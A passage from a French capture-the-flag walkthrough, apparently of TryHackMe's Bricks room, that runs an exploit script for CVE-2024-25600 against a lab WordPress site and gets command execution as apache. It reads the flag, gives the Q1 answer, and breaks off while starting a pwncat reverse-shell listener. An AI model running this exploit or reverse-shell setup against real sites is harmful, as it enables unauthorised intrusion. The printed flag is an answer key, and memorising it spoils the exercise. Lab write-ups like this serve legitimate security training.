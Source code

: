 Afin de faire une installation correcte, il est fortement recommandé de créer un environnement virtuel Python pour installer les dépendances du script Python.

Pour ce faire, nous pouvons utiliser la commande suivante :

```bash
python3 -m venv CVE-2024-25600-env # <- Vous pouvez le nommer comme vous voulez
source CVE-2024-25600-env/bin/activate # Nous activons ensuite l'environnement virtuel
pip install -r requirements.txt # Nous installons ensuite les dépendances

# Vous pouvez désactiver le venv en utilisant la commande suivante
deactivate
```

Bien, essayons maintenant de lancer le script !

```bash
chmod +x exploit.py # Donner les permissions d'exécution
python exploit.py -u https://bricks.thm/

[*] Nonce trouvé : 5f3fce1e00 # Vous pouvez également obtenir cette valeur dans le code source du site web
[+] https://bricks.thm/ est vulnérable à CVE-2024-25600. Sortie de la commande : apache
[!] Le shell est prêt, veuillez taper vos commandes UwU
# id
uid=1001(apache) gid=1001(apache) groups=1001(apache)

```

C'était rapide ! Nous avons enfin une session shell, génial !

Nous pouvons maintenant récupérer le premier flag sous /data/www/default

```bash
# pwd
/data/www/default
# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}

```

## Réponse à la Q1

La réponse est **THM{fl46_650c844110baced87e1606453b93f22a}**

Maintenant que nous avons un shell sur la cible, nous pourrions vouloir le stabiliser car nous ne pouvons pas faire grand-chose avec.

Pour ce faire, j'aime utiliser `pwncat` (https://github.com/calebstewart/pwncat) qui est un outil vraiment utile. Jetez-y un oeil !

Nous pouvons obtenir un reverse shell stable en utilisant les commandes suivantes.

D'abord, on démarre l’écoute pwncat

```bash
pwncat -lp 4444
[11:35:05] Bienvenue à pwncat 🐈! __main__.py:164
lié à 0.0.0.0:4444
```
